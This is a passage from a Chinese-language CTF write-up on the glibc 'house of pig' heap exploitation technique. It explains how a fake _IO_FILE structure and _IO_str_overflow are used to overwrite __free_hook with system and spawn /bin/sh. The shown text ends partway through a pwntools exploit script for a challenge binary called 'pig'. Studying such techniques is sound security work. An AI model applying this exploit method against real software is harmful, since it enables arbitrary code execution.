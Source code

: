 然后使用``malloc``函数申请一块空间，这块空间的大小等于``len * 2 + 100``，因此我们需要计算好``len``的值好让``malloc``能够分配到tcache中``__free_hook``附近空间。然后调用了``memcpy``函数将``old_buf``中的内容复制到``new_buf``中，在前面所有工作都完成的情况下，这里的``new_buf``就应该是``__free_hook``附近的地址，而``old_buf``这个地址是我们可以控制的，是我们写在假``_IO_FILE``结构体中的，因此我们可以让``_old_buf``指向一个写有``system``函数地址的空间，然后通过``memcpy``函数将其复制到``__free_hook``中。

之后，调用``free``函数，其参数是``old_buf``这个地址，我们只需要让这个地址开头写有``/bin/sh``即可执行``system("/bin/sh")``。这里的内容需要进行精心设计，要控制好偏移的值，同时还需要保证写入到``_IO_list_all``的堆地址就是假``FILE``结构体的地址。注意到``_IO_list_all``的堆地址实际上是large bin中的chunk地址，因此可以通过在最后``calloc``时切割这个large bin chunk实现对该地址及后面大块空间的完全控制。

至于我们如何让程序执行``_IO_str_overflow``这个函数，很简单。这个函数的地址是保存在``_IO_str_jumps``这个结构体中的，在一般程序正常运行的情况下，``_IO_list_all``保存有指向标准输入输出的``FILE``结构体，其中的``vtable``指向的应该是``_IO_file_jumps``，而``_IO_file_jumps``与``_IO_str_jumps``是一个结构体类型的实例，二者的不同之处是，``_IO_file_jumps``用于一个``FILE``结构体在出现异常时调用的函数列表，我们在假``FILE``结构体中将``vtable``写成``_IO_str_jumps``，实际上就是将程序的执行流从``_IO_file_overflow``改成``_IO_str_overflow``。这也是house of pig利用的思想精髓所在。

exp: （其中假``FILE``结构体中某些字段的设置也有讲究，这个会在下面的演示程序中说明）

```python
import time

from pwn import *
context.log_level = 'debug'

io = process(['./pig'])
elf = ELF('./pig')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
password = [b'AY7Hr0', b'BRgTa2', b'CnY841']
current_user = 0

def add(content_length, content = None):
    io.sendlineafter(b'Choice: ', b'1')
    io.sendlineafter(b'message size: ', str(content_length).encode())
    if content is None:
        content = str(current_user) * (content_length // 0x30 * 0x10)
    io.sendafter(b'message: ', content)

def view(index):
    io.sendlineafter(b'Choice: ', b'2')
    io.sendlineafter(b'index: ', str(index).encode())

def edit(index, content):
    io.sendlineafter(b'Choice: ', b'3')
    io.sendlineafter(b'index: ', str(index).encode())
    io.sendafter(b'message: ', content)

def delete(index):
    io.sendlineafter(b'Choice: ', b'4')
    io.sendlineafter(b'index: ', str(index).encode())

def change_role(role):
    global current_user
    io.sendlineafter(b'Choice: ', b'5')
    io.sendlineafter(b'user:\n', password[role])
    current_user = role

# 部署tcache stashing unlink attack的堆环境
change_role(1)
for i in range(5):      # make 5 chunk into tcache, mummy index 0~4
    add(0xA0)
    delete(i)
change_role(0)
add(0x150)    # peppa index 0
for i in range(7):      # fill 0x120 tcache, peppa index 1~7
    add(0x150)
    delete(i + 1)
delete(0)               # peppa #0 into unsorted bin
```